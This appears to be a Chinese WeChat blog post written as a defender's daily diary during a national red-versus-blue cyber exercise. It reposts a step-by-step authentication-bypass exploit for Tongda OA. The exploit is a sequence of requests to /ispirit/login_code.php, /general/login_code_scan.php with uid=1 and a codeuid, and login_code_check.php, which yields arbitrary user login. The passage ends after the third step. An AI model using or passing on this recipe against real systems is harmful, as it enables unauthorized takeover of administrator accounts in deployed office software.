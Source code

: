 \> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[mp.weixin.qq.com\](https://mp.weixin.qq.com/s/\_SR0b62G1cyq3s2K\_7aIRQ)

0915HW 日报  

蹲守机房的第五天，HW 过去了三分之一多，机房依旧很冷，但是还好，这次我带了外套~  

但是不敢松懈，要提醒自己时刻保持警惕，随时等候拔线的指令。![](https://mmbiz.qpic.cn/mmbiz_png/p5qELRDe5icm7BbzV5BkhTdGBfY5meavnzDuCtmZBG9TuvuJflphjzD9jDGq05tIKWuwXM924icRSGmxVYbFZekA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/p5qELRDe5icmjgiajk3ForAicqK8FGJ39EdL2l3qoR81JqhMTauT71x0A0LUjXFyEfFJtQPic6JWa29JibxfRiaF3ibOA/640?wx_fmt=png)

今年的 HW 尤其特别，特别到让人摸不着头脑。![](https://mmbiz.qpic.cn/mmbiz_png/p5qELRDe5icm7BbzV5BkhTdGBfY5meavnwicIhd5ib31642bVnwn45guwwWZggLBzcdwia81SbGB7vVHHasVDeZSIw/640?wx_fmt=png)  

**·** 防守方安安静静、无报警、无应急、无溯源。互相打探、互相讨论：‘攻击队伍在干嘛？来了吗？怎么还没来？’![](https://mmbiz.qpic.cn/mmbiz_png/p5qELRDe5icm7BbzV5BkhTdGBfY5meavnOQ6IHKCrMSTQxRcroBw6H9HMHvvOXmEO1E8q0bGEpuR7QVibIM7YiaJg/640?wx_fmt=png)  

**·** 攻击方小心翼翼，不用扫描器、不用脚本、重装电脑、清浏览器缓存、访问下网站判断是蜜罐立马就撤离，仿佛人间蒸发一般的招数。![](https://mmbiz.qpic.cn/mmbiz_png/p5qELRDe5icm7BbzV5BkhTdGBfY5meavnj3oicKtLv07o9kgs5yaNlX35fqDXYb5C2Mg7rraEib6nJvEXJC2TP8Lg/640?wx_fmt=png)

往年防守方不扣分就是赢，今年防守方不抓到人就‘如同’输。![](https://mmbiz.qpic.cn/mmbiz_png/p5qELRDe5icm7BbzV5BkhTdGBfY5meavntcMhfZ36r5YOLxrpJxWdo9ciczawxode7VGiaMrUDX5cEgFx4VMTib1pQ/640?wx_fmt=png)  

总之今年，一切都是静悄悄的~  

![](https://mmbiz.qpic.cn/mmbiz_png/p5qELRDe5icm7BbzV5BkhTdGBfY5meavnuWwsIxPBK13SoYjGTwv5wPPj5ibnWAums4xOXJqVic51zKWsecicSibLWg/640?wx_fmt=png)

  
今天很安静，但是请别大意![](https://mmbiz.qpic.cn/mmbiz_png/p5qELRDe5icmjgiajk3ForAicqK8FGJ39EdpAeiaEibU7gojHf1tJlLiaAjZkv38alib2rKEJ2LGgliaSPRWIAUEgrfrzg/640?wx_fmt=png)  

今天 ，你拔线了么？  

**“满当当的昨天，  
富意义的今天～”**

**今日主题：01 今日收录、02 情报收集、03 弹药库**  

01 **今日收录**

—  

![](https://mmbiz.qpic.cn/mmbiz_gif/p5qELRDe5icm7BbzV5BkhTdGBfY5meavnQpYVDcrICgkibfyBrBicqq2umwTeXyL16bQrbyvhAkUMxlBk2ITCCGBA/640?wx_fmt=gif)

转载自：渗了个透  

0、通达 OA 任意用户登录

1、首先访问 /ispirit/login\_code.php 获取 codeuid。

2、访问 /general/login\_code\_scan.php 提交 post 参数：

uid=1&codeuid={9E908086-342B-2A87-B0E9-E573E226302A}

![](https://mmbiz.qpic.cn/mmbiz_png/gEVuGz7Ip7Q2ia7NeMEAKDJI38ldeK5vCwXkFVxysXxMvrh9NEO3iaNYfIZHRRP1kjz2g7v0SaLN0fKiaMP45LopQ/640?wx_fmt=png)

3、最后访问 /ispirit/login\_code\_check.php?codeuid=xxx
